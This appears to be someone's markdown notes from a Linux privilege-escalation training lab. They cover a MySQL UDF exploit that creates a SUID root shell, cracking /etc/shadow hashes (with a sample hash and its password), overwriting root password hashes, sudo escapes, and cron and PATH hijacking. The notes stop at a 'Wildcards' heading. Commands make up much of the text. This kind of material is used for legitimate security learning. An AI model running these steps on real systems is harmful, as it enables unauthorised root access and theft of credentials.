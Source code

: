 # Linux PrivEsc


## Service Exploits
- MySQL is running as root, and the root user for the service doesn't have a apassword assigned
- [This exploit](https://www.exploit-db.com/exploits/1518) takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service
```
Change into the /home/user/tools/mysql-udf directory:

cd /home/user/tools/mysql-udf

Compile the raptor_udf2.c exploit code using the following commands:

gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

Connect to the MySQL service as the root user with a blank password:

mysql -u root

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

/tmp/rootbash -p

Remember to remove the /tmp/rootbash executable and exit out of the root shell before continuing as you will create this file again later in the room!

rm /tmp/rootbash
exit
```

## Weak File Permissions - Readable /etc/shadow
- `/etc/shadow` contains user password hashes and is usually only readable by root user
1. `ls -al /etc/shadow`
2. `cat /etc/shadow`
3. Copy the hash to a file and `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` or `hashcat -a 0 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt`
- Exercise
    1. `$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0`
    2. `sha512crypt`
    3. `password123`

## Weak File Permissions - Writable /etc/shadow
1. `ls -al /etc/shadow`
2. `mkpasswd -m sha-512 newpasswordhere`
3. Replace the root hash in `/etc/shadow` with the one generated

## Weak File Permissions - Writable /etc/passwd
- `/etc/passwd` contains information about user accounts
- Usually word-readable, but only writable by root
- Used to contain password hashes, but now they're stored in `/etc/shadow`
1. `ls -al /etc/passwd`
2. `openssl passwd <new password>`
3. Edit the `/etc/passwd` file and place the generated password hash between the first and second colon of the root user's row (replacing the x)
    - Or just create a new user on the file by adding a new line with the username, password hash, and other details

## Sudo - Shell Escape Sequences
- List the programs which sudo allows your user to run with `sudo -l`
- Visit [GTFOBins](https://gtfobins.github.io/) and search for the programs that you're allowed to run

## Sudo - Environment Variables
- Sudo can be configured to inherit certain environment variables from the user's environment
- Check which environment variables are inherited with `sudo -l`

## Cron Jobs - File Permissions
- Cron jobs are programs or scripts which can be scheduled to run at specific times
- View contents of crontab `cat /etc/crontab`
- If you have write access to a script that is scheduled to run, you can edit it and insert a reverse shell

## Cron Jobs - PATH Environment Variable
- If the absolute path of the program that is scheduled to run isn't used, then you can easily create a program of the same name, edit the PATH variable to include the file you created, and wait for the cron job to run your script

## Cron Jobs - Wildcards
